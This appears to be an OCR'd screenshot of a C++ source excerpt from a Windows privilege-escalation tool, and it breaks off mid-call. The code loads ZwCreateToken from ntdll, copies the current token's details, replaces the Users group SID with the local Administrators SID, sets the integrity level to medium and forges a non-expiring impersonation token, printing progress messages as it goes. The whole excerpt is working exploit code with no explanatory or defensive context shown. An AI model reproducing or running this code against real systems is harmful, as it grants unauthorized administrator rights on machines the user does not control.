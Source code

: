 ```c++
	SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32, DOMAIN_ALIAS_RID_ADMINS } };
	SID_INTEGRITY IntegrityMediumSID = { 1, 1, SECURITY_MANDATORY_LABEL_AUTHORITY, SECURITY_MANDATORY_MEDIUM_RID };

	HANDLE hThread = NULL;

	ZwCreateToken = (_ZwCreateToken)GetProcAddress(LoadLibraryA("ntdll"), "ZwCreateToken");
	if (ZwCreateToken == NULL) {
		printf("[-] Failed to load ZwCreateToken: %d\n", GetLastError());
		return NULL;
	}
	wprintf(L"[*] ZwCreateToken function loaded.\n");
	pTokenUser = (PTOKEN_USER)GetTokenInfo(hToken, TokenUser);

	strcpy_s(tokenSource.SourceName, TOKEN_SOURCE_LENGTH, "User32");
	AllocateLocallyUniqueId(&tokenSource.SourceIdentifier);

	pTokenPrivileges = (PTOKEN_PRIVILEGES)LocalAlloc(LMEM_FIXED, sizeof(TOKEN_PRIVILEGES) + (sizeof(LUID_AND_ATTRIBUTES) * 4));
	pTokenPrivileges = (PTOKEN_PRIVILEGES)GetTokenInfo(hToken, TokenPrivileges);
	SetTokenPrivileges(pTokenPrivileges);
	pTokenGroups = (PTOKEN_GROUPS)GetTokenInfo(hToken, TokenGroups);
	pTokenPrimaryGroup = (PTOKEN_PRIMARY_GROUP)GetTokenInfo(hToken, TokenPrimaryGroup);
	pTokenDefaultDacl = (PTOKEN_DEFAULT_DACL)GetTokenInfo(hToken, TokenDefaultDacl);

	for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
	{
		if (pTokenGroups->Groups[i].Attributes & SE_GROUP_INTEGRITY)
		{
			memcpy(pTokenGroups->Groups[i].Sid, &IntegrityMediumSID, sizeof(IntegrityMediumSID));
			wprintf(L"[*] Set the token integrity level to medium.\n");
		}

		pSid = (PISID)pTokenGroups->Groups[i].Sid;
		if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
		{
			memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
			pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
			wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
		}
		else
		{
			pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_USE_FOR_DENY_ONLY;
			pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_ENABLED;
		}
	}

	pTokenOwner = (PTOKEN_OWNER)LocalAlloc(LPTR, sizeof(PSID));
	pTokenOwner->Owner = pTokenUser->User.Sid;

	ExpirationTime.HighPart = 0xFFFFFFFF;
	ExpirationTime.LowPart = 0xFFFFFFFF;

	Status = ZwCreateToken(
		&pElevatedToken,
		TOKEN_ALL_ACCESS,
		&objectAttributes,
		TokenImpersonation,
		&AuthenticationId,
		&ExpirationTime,
		pTokenUser,
		pTokenGroups,
		pTokenPrivileges,
```
